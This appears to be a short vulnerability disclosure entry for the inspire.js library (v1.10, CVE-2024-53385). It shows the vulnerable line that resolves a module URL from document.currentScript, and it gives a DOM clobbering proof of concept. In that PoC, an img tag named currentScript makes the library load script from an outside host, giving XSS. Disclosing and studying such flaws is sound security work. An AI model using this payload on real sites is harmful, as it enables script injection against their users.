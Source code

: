 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: CVE-2024-53385
+ Foundby: TheHulk

### Library

https://inspirejs.org/inspire.js

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```html
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999">
<!--Payload-->
```
